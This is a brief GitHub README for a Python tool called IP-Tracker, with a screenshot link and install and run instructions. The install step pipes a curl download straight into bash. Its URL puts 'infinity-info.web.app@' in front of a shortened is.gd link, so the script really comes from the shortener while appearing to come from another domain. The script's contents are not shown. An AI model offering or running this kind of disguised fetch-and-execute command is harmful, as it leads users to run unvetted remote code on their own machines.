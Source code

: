 # IP-Tracker
Infinity info network ip Tracker tool
### Tool
* python
* v 1.0
#### Screenshot
![Screenshot_20240220-003142](https://github.com/infinitynetwork13/IP-Tracker/assets/155347164/783b1b73-71ba-4e2b-b4f0-39066d767fd1)

### Installing
```ruby
curl -sSL https://infinity-info.web.app@is.gd/pBxiU9 | bash && ip-info
```
### Run
```ruby
ip-info
```
